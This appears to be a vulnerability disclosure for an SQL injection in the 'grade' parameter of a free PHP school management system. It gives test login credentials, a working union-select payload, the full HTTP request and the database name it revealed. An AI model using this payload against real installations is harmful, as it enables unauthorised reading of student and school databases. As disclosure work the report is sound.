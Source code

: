 # Advanced School Management System v1.0 by itsourcecode.com has SQL injection

**Login account:** 

​		username：suarez081119@gmail.com

​		password：12345

**vendors:** https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

**Vulnerability url:** /school/view/student_grade_wise.php?grade=

**Vulnerability location:** /school/view/student_grade_wise.php

**[+] Payload:** /school/view/student_grade_wise.php?grade=11'%20union%20select%20database()%2c2%2c3%3b%23

**Leak place** : grade

**the sql injection is：**11' union select database(),2,3;#

**Current database name:** std_db, length is 6

**Request package：**select all students whose grade is specified

```
GET /school/view/student_grade_wise.php?grade=11'%20union%20select%20database()%2c2%2c3%3b%23 HTTP/1.1
Host: 10.12.171.4
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: */*
Referer: http://10.12.171.4/school/view/all_student.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=cp26rmntdlbhle8qiofns95sv7
Connection: close
```

**SQL injection result：**line 6 database name is displayed.

![image-20220624163833913](https://github.com/Renrao/bug_report/blob/master/blob/main/vendors/itsourcecode.com/advanced-school-management-system/sql_injection.assets/image-20220624163833913.png)